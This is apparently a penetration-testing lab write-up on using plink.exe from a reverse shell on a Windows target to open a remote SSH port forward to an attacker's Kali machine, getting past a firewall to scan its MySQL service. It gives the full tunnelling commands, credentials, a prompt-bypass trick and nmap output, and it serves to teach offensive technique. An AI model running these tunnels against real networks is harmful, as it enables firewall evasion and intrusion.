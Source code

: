 ```yaml
---
description: >-
  Plink
title:  Plink             # Add title here
date: 2022-11-13 08:00:00 -0600                           # Change the date to match completion date
categories: [09 Port Redirection and Tunneling, Plink]                     # Change Templates to Writeup
tags: [port redirection and tunneling, plink]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


During the enumeration and information gathering process, we discover a MySQL service running on TCP port 3306.

```powershell
C:\Windows\system32>netstat -anpb TCP
netstat -anpb TCP 

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
 [syncbrs.exe]
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  RpcSs
 [svchost.exe]
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
 Can not obtain ownership information
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING
 [mysqld.exe]
```

We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.

We will transfer [plink.exe](http://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html), a Windows-based command line SSH client (part of the PuTTY project) to the target to overcome this limitation. The program syntax is similar to the UNIX-based ssh client:

```powershell
C:\Tools\port_redirection_and_tunneling> plink.exe
plink.exe
Plink: command-line connection utility
Release 0.70
Usage: plink [options] [user@]host [command]
       ("host" can also be a PuTTY saved session name)
Options:
  -V        print version information and exit
  -pgpfp    print PGP key fingerprints and exit
  -v        show verbose messages
  -load sessname  Load settings from saved session
  -ssh -telnet -rlogin -raw -serial
            force use of a particular protocol
  -P port   connect to specified port
  -l user   connect with specified username
  -batch    disable all interactive prompts
  -proxycmd command
            use 'command' as local proxy
  -sercfg configuration-string (e.g. 19200,8,n,1,X)
            Specify the serial configuration (serial only)
The following options only apply to SSH connections:
  -pw passw login with specified password
  -D [listen-IP:]listen-port
            Dynamic SOCKS-based port forwarding
  -L [listen-IP:]listen-port:host:port
            Forward local port to remote address
  -R [listen-IP:]listen-port:host:port
            Forward remote port to local address
  -X -x     enable / disable X11 forwarding
  -A -a     enable / disable agent forwarding
  -t -T     enable / disable pty allocation
...
```

We can use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306) with the following command:

```powershell
C:\Tools\port_redirection_and_tunneling> plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

The first time plink connects to a host, it will attempt to cache the host key in the registry. If we run the command through an rdesktop connection to the Windows client, we can see this interactive step:

![Plink-sh](/assets/img/Pasted image 20230503172914.png)

However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:

```powershell
C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
cmd.exe /c echo y | plink.exe -ssh -l root -pw toor -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
kali@kali:~$  
```

Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:

```bash
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234

Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-20 05:00 EEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
1234/tcp open  mysql   MySQL 5.5.5-10.1.31-MariaDB

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

The setup seems to be working. We have successfully scanned the Windows 10 machine's SQL service through a remote port forward on our Kali attack machine.